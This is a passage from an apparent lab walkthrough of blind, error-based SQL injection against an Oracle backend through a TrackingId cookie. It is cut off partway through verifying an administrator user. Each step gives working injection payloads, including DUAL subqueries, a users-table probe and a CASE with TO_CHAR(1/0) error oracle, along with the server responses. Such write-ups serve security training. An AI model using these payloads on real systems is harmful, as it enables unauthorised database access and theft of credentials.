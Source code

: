   ![image](https://github.com/user-attachments/assets/13ed80f6-ce23-4c00-b630-ee606750e1a7)


- **Valid Syntax Test**:
  - Payload: `TrackingId=xyz'''`
  - Modified Query:
    ```sql
    SELECT trackingId FROM someTable WHERE trackingId = 'xyz'''
    ```
  - Result: HTTP 200 response, indicating valid SQL syntax.

  ![image](https://github.com/user-attachments/assets/3af20140-4844-498e-b4e8-f9cf57360e88)


### Step 2: Confirming Oracle Database
To confirm the database is Oracle, which requires a table in `SELECT` statements:

- **Invalid Subquery**:
  - Payload: `TrackingId=xyz'||(SELECT '')||'`
  - Result: Error, as Oracle requires a table.

![image](https://github.com/user-attachments/assets/2c4aab4a-cde4-4c82-8265-667380a4cccc)


- **Valid Subquery with DUAL**:
  - Payload: `TrackingId=xyz'||(SELECT '' FROM dual)||'`
  - Result: HTTP 200 response, confirming Oracle database.
  
  ![image](https://github.com/user-attachments/assets/05f80d30-b3f0-462c-9461-81b6537903bb)


- **Invalid Table Test**:
  - Payload: `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`
  - Result: Error, confirming the need for a valid table.

![image](https://github.com/user-attachments/assets/97e64a38-7b22-4fbe-9efd-63e4638b34f0)


### Step 3: Verifying Users Table
To check if a `users` table exists:

- Payload: `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
- Result: HTTP 200 response, confirming the `users` table exists.
- Note: `WHERE ROWNUM = 1` ensures a single row to avoid concatenation issues.
 
![image](https://github.com/user-attachments/assets/a4496ca9-b074-4529-b974-5a8de1f573fb)


### Step 4: Verifying Administrator User
To confirm the existence of an `administrator` user:

- **True Condition Test**:
  - Payload: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
  - Result: Error due to division by zero, confirming true condition triggers an error.

